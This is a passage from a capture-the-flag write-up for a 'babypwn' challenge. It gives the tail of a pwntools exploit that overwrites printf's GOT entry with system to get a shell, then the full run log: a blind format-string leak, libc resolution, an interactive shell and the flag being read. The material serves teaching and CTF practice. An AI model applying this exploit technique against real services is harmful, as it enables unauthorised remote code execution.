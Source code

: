 ```python
log.info("SENDING PAYLOAD, PEW PEW !!!")
exec_payload(forge_exploit(printf_got, system_addr))
conn.sendline('/bin/sh')

log.success("ENJOY YOUR SHELL :)")
conn.interactive()

conn.close()
```

### Revealing its secret

It’s now time to run our exploit :

```shell
florent@kali:~# python exploit.py

[+] Opening connection to 47.75.182.113 on port 9999: Done
[*] Finding ELF. This might take a few seconds...
[+] FOUND ELF !
[*] Using address 0x40076d
[*] Finding leak point
[+] FOUND leak point 8
[!] No ELF provided.  Leaking is much faster if you have a copy of the ELF being leaked.
[*] PT_DYNAMIC
[*] PT_DYNAMIC header = 0x400040
[*] PT_DYNAMIC count = 0x9
[*] PT_DYNAMIC @ 0x600e20
[+] Resolving 'printf' in 'libc.so': 0x7f02b722e168
[*] Trying lookup based on Build ID: b5381a457906d279073822a5ceb24c4bfef94ddb
[*] Skipping unavialable libc b5381a457906d279073822a5ceb24c4bfef94ddb
[*] .gnu.hash/.hash, .strtab and .symtab offsets
[*] Found DT_GNU_HASH at 0x7f02b7000c00
[*] Found DT_STRTAB at 0x7f02b7000c10
[*] Found DT_SYMTAB at 0x7f02b7000c20
[*] .gnu.hash parms
[*] hash chain index
[*] hash chain
[*] Found DT_GNU_HASH at 0x7f02b7000c00
[*] Found DT_STRTAB at 0x7f02b7000c10
[*] Found DT_SYMTAB at 0x7f02b7000c20
[*] .gnu.hash parms
[*] hash chain index
[*] hash chain
[+] FOUND GOT Address: 0x601000
[+] FOUND printf@GOT : 0x601020
[*] SENDING PAYLOAD, PEW PEW !!!
[+] ENJOY YOUR SHELL :)
[*] Switching to interactive mode
$ ls
babypwn
bin
dev
flag
lib
lib32
lib64
$ cat flag
HITB{Baby_Pwn_BabY_bl1nd}
```